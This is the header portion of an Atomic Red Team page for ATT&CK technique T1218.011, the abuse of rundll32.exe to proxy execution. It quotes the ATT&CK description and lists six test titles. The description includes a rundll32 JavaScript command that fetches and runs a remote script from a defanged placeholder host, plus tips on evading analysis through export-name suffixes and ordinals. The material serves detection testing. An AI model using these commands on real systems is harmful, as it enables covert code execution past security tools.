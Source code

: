 # T1218.011 - Signed Binary Proxy Execution: Rundll32

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/011)

<blockquote>Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. [Shared Modules](https://attack.mitre.org/techniques/T1129)), may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from normal operations. Rundll32.exe is commonly associated with executing DLL payloads (ex: <code>rundll32.exe {DLLname, DLLfunction}</code>).

Rundll32.exe can also be used to execute [Control Panel](https://attack.mitre.org/techniques/T1218/002) Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code> This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)

Adversaries may also attempt to obscure malicious code from analysis by abusing the manner in which rundll32.exe loads DLL function names. As part of Windows compatibility support for various character sets, rundll32.exe will first check for wide/Unicode then ANSI character-supported functions before loading the specified function (e.g., given the command <code>rundll32.exe ExampleDLL.dll, ExampleFunction</code>, rundll32.exe would first attempt to execute <code>ExampleFunctionW</code>, or failing that <code>ExampleFunctionA</code>, before loading <code>ExampleFunction</code>). Adversaries may therefore obscure malicious code by creating multiple identical exported function names and appending <code>W</code> and/or <code>A</code> to harmless ones.(Citation: Attackify Rundll32.exe Obscurity)(Citation: Github NoRunDll) DLL functions can also be exported and executed by an ordinal number (ex: <code>rundll32.exe file.dll,#1</code>).

Additionally, adversaries may use [Masquerading](https://attack.mitre.org/techniques/T1036) techniques (such as changing DLL file names, file extensions, or function names) to further conceal execution of a malicious payload.(Citation: rundll32.exe defense evasion) </blockquote>

## Atomic Tests

- [Atomic Test #1 - Rundll32 execute JavaScript Remote Payload With GetObject](#atomic-test-1---rundll32-execute-javascript-remote-payload-with-getobject)

- [Atomic Test #2 - Rundll32 execute VBscript command](#atomic-test-2---rundll32-execute-vbscript-command)

- [Atomic Test #3 - Rundll32 execute VBscript command using Ordinal number](#atomic-test-3---rundll32-execute-vbscript-command-using-ordinal-number)

- [Atomic Test #4 - Rundll32 advpack.dll Execution](#atomic-test-4---rundll32-advpackdll-execution)

- [Atomic Test #5 - Rundll32 ieadvpack.dll Execution](#atomic-test-5---rundll32-ieadvpackdll-execution)

- [Atomic Test #6 - Rundll32 syssetup.dll Execution](#atomic-test-6---rundll32-syssetupdll-execution)
